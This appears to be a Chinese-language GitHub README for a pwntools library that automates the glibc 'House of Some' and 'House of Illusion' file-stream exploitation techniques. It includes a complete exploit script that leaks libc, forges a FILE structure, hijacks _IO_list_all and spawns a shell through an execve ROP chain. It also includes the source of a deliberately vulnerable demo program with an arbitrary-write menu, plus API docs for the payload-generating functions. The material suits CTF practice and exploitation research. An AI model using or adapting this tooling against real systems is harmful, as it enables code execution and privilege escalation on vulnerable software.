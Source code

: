 # Some of House

House实用小工具合集

## 目前已包含的House

House of Some: https://blog.csome.cc/p/house-of-some/

House of Illusion: https://enllus1on.github.io/2024/01/22/new-read-write-primitive-in-glibc-2-38/#more

## HouseOfSome x Illusion的自动化

在exit退出之后使用如下脚本即可

```python
from SomeofHouse import HouseOfSome
io = process("./demo")

...

libc = ELF("./libc.so.6", checksec=None)
libc.address = libc_base
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io)
```

- controled_addr：可写地址，作为延长的IO_list_all中的io file写入的起始地址

### 举个例子

```python
from pwn import *
from SomeofHouse import HouseOfSome

context.log_level = 'debug'
context.arch = 'amd64'

tob = lambda x: str(x).encode()
io = process("./demo")

io.recvuntil(b"[+] printf: ")
printf_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"printf_addr: {printf_addr:#x}")

def add(size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size> ", tob(size))
    
def write(addr, size, content):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"size> ", tob(size))
    io.sendlineafter(b"addr> ", tob(addr))
    io.sendafter(b"content> ", content)

def leave():
    io.sendlineafter(b"> ", b"3")

libc = ELF("./libc.so.6", checksec=None)
add(0x200)
io.recvuntil(b"[+] done ")
heap_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"heap_addr: {heap_addr:#x}")

libc_base = printf_addr - libc.symbols["printf"]
log.success(f"libc_base: {libc_base:#x}")

libc.address = libc_base
fake_file_start = heap_addr + 0xe0 + 0xe8
# 上方是信息收集
# ------------------------------------------------- # 
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
# 构造第一个任意地址写原语
payload = hos.hoi_read_file_template(fake_file_start, 0x400, fake_file_start, 0)
io.sendlineafter(b"content> ", payload)
write(libc.symbols["_IO_list_all"], 8, p64(heap_addr)) # 劫持_IO_list_all
leave() # exit

hos.bomb(io) # 一句话攻击

io.interactive()
```

demo.c源码

```python
#include<stdio.h>

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    int c;
    printf("[+] printf: %p\n", &printf);
    while (1) {
        printf(
            "1. add heap.\n"
            "2. write libc.\n"
            "3. exit\n"
            "> "
        );
        scanf("%d", &c);
        if(c == 1) {
            int size;
            printf("size> ");
            scanf("%d", &size);
            char *p = malloc(size);
            printf("[+] done %p\n", p);
            printf("content> ");
            read(0, p, size);
        } else if(c == 2){
            size_t addr, size;
            printf("size> ");
            scanf("%lld", &size);
            printf("addr> ");
            scanf("%lld", &addr);
            printf("content> ");
            read(0, (char*)addr, size);
        } else {
            break;   
        }
        
    }
    
}
```

## Docs

### class HouseOfSome(libc, controled_addr, zero_addr=libc.symbols['_environ']-0x10)

**Parameters**

- libc([ELF](https://docs.pwntools.com/en/latest/elf/elf.html#pwnlib.elf.elf.ELF)) - libc文件ELF对象
- controled_addr(int) - 可写地址，作为延长的IO_list_all中的io file写入的起始地址
- zero_addr(int) - 内容常0的地址

house of some自动化payload生成类

**Example**

```python
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, libc.symbols['_IO_file_underflow'] + 390)
```

#### bomb(io, retn_addr=0) -> None

直接一把梭提权，运用[pwntools自带工具ROP](https://docs.pwntools.com/en/latest/rop/rop.html)，其中执行函数为`rop.call('execve', [b'/bin/sh', 0, 0])`

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - (可选)在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移。如果不设置，则会从泄露的栈中寻找IO_flush_all的地址

#### read(fd, buf, len, end=0) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待写入的地址
- len(int) - 写入长度
- end(bool) - 是否为最后一个fake_file

#### write(fd, buf, len) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待读取的地址
- len(int) - 读取长度

#### bomb_raw(io, retn_addr=0) -> int

执行此函数之后，当前io处在等待输入，并即将写入ROP

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - (可选)在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移。如果不设置，则会从泄露的栈中寻找IO_flush_all的地址

**return**

返回泄露的栈地址，此栈地址是ROP的起始地址

